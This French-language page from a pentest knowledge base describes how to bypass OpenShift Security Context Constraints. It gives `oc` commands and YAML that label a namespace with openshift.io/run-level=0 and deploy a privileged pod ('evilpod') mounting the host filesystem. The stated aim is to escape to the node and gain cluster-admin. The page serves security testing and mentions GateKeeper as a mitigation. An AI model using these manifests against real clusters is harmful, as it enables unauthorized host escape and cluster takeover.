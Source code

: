# Openshift - SCC bypass

{{#include ../../../banners/hacktricks-training.md}}

**L'auteur original de cette page est** [**Guillaume**](https://www.linkedin.com/in/guillaume-chapela-ab4b9a196)

## Espaces de noms privilégiés

Par défaut, SCC ne s'applique pas aux projets suivants :

- **default**
- **kube-system**
- **kube-public**
- **openshift-node**
- **openshift-infra**
- **openshift**

Si vous déployez des pods dans l'un de ces espaces de noms, aucune SCC ne sera appliquée, permettant le déploiement de pods privilégiés ou le montage du système de fichiers hôte.

## Étiquette d'espace de noms

Il existe un moyen de désactiver l'application de SCC sur votre pod selon la documentation de RedHat. Vous devrez avoir au moins l'une des permissions suivantes :

- Créer un espace de noms et créer un pod dans cet espace de noms
- Modifier un espace de noms et créer un pod dans cet espace de noms
```bash
$ oc auth can-i create namespaces
yes

$ oc auth can-i patch namespaces
yes
```
L'étiquette spécifique `openshift.io/run-level` permet aux utilisateurs de contourner les SCC pour les applications. Selon la documentation de RedHat, lorsque cette étiquette est utilisée, aucune SCC n'est appliquée à tous les pods dans cet espace de noms, supprimant ainsi toutes les restrictions.

<figure><img src="../../../images/Openshift-RunLevel4.png" alt=""><figcaption></figcaption></figure>

## Ajouter une étiquette

Pour ajouter l'étiquette dans votre espace de noms :
```bash
$ oc label ns MYNAMESPACE openshift.io/run-level=0
```
Pour créer un espace de noms avec l'étiquette via un fichier YAML :
```yaml
apiVersion: v1
kind: Namespace
metadata:
name: evil
labels:
openshift.io/run-level: 0
```
Maintenant, tous les nouveaux pods créés dans l'espace de noms ne devraient avoir aucun SCC

<pre class="language-bash"><code class="lang-bash"><strong>$ oc get pod -o yaml | grep 'openshift.io/scc'
</strong><strong>$
</strong></code></pre>

En l'absence de SCC, il n'y a aucune restriction sur la définition de votre pod. Cela signifie qu'un pod malveillant peut être facilement créé pour s'échapper sur le système hôte.
```yaml
apiVersion: v1
kind: Pod
metadata:
name: evilpod
labels:
kubernetes.io/hostname: evilpod
spec:
hostNetwork: true #Bind pod network to the host network
hostPID: true #See host processes
hostIPC: true #Access host inter processes
containers:
- name: evil
image: MYIMAGE
imagePullPolicy: IfNotPresent
securityContext:
privileged: true
allowPrivilegeEscalation: true
resources:
limits:
memory: 200Mi
requests:
cpu: 30m
memory: 100Mi
volumeMounts:
- name: hostrootfs
mountPath: /mnt
volumes:
- name: hostrootfs
hostPath:
path:
```
Maintenant, il est devenu plus facile d'escalader les privilèges pour accéder au système hôte et par la suite prendre le contrôle de l'ensemble du cluster, obtenant des privilèges 'cluster-admin'. Recherchez la partie **Node-Post Exploitation** sur la page suivante :

{{#ref}}
../../kubernetes-security/attacking-kubernetes-from-inside-a-pod.md
{{#endref}}

### Étiquettes personnalisées

De plus, en fonction de la configuration cible, certaines étiquettes / annotations personnalisées peuvent être utilisées de la même manière que dans le scénario d'attaque précédent. Même si ce n'est pas prévu, les étiquettes pourraient être utilisées pour donner des permissions, restreindre ou non une ressource spécifique.

Essayez de rechercher des étiquettes personnalisées si vous pouvez lire certaines ressources. Voici une liste de ressources intéressantes :

- Pod
- Deployment
- Namespace
- Service
- Route
```bash
$ oc get pod -o yaml | grep labels -A 5
$ oc get namespace -o yaml | grep labels -A 5
```
## Lister tous les espaces de noms privilégiés
```bash
$ oc get project -o yaml | grep 'run-level' -b5
```
## Exploit avancé

Dans OpenShift, comme démontré précédemment, avoir la permission de déployer un pod dans un namespace avec le label `openshift.io/run-level` peut conduire à une prise de contrôle directe du cluster. Du point de vue des paramètres du cluster, cette fonctionnalité **ne peut pas être désactivée**, car elle est inhérente à la conception d'OpenShift.

Cependant, des mesures d'atténuation comme **Open Policy Agent GateKeeper** peuvent empêcher les utilisateurs de définir ce label.

Pour contourner les règles de GateKeeper et définir ce label pour exécuter une prise de contrôle du cluster, **les attaquants devraient identifier des méthodes alternatives.**

## Références

- [https://docs.openshift.com/container-platform/4.8/authentication/managing-security-context-constraints.html](https://docs.openshift.com/container-platform/4.8/authentication/managing-security-context-constraints.html)
- [https://docs.openshift.com/container-platform/3.11/admin_guide/manage_scc.html](https://docs.openshift.com/container-platform/3.11/admin_guide/manage_scc.html)
- [https://github.com/open-policy-agent/gatekeeper](https://github.com/open-policy-agent/gatekeeper)



{{#include ../../../banners/hacktricks-training.md}}
